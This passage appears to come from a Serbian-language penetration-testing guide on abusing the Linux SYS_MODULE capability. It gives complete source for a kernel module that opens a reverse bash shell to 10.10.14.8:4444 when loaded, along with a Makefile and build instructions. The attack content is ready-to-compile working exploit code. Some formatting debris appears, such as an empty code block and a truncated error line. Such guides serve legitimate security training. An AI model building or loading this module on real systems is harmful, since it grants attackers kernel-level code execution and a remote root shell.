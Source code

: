 Unutar prethodnog izlaza možete videti da je omogućena sposobnost **SYS\_MODULE**.

**Napravite** **kernel modul** koji će izvršiti obrnutu ljusku i **Makefile** za njegovo **kompajliranje**:

{% code title="reverse-shell.c" %}
```
```
{% endcode %}

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

{% code title="Makefile" %}
```bash
obj-m +=reverse-shell.o

all:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
{% endcode %}

{% hint style="warning" %}
Prazan karakter ispred svake reči u Makefile **mora biti tabulator, ne razmaci**!
{% endhint %}

Izvršite `make` da biste ga kompajlirali.

```
ake[1]: *** /lib/modules/5.10.0-kali7-amd64/build: No such file or directory.  Stop.

sudo apt update
sudo apt full-upgrade
```
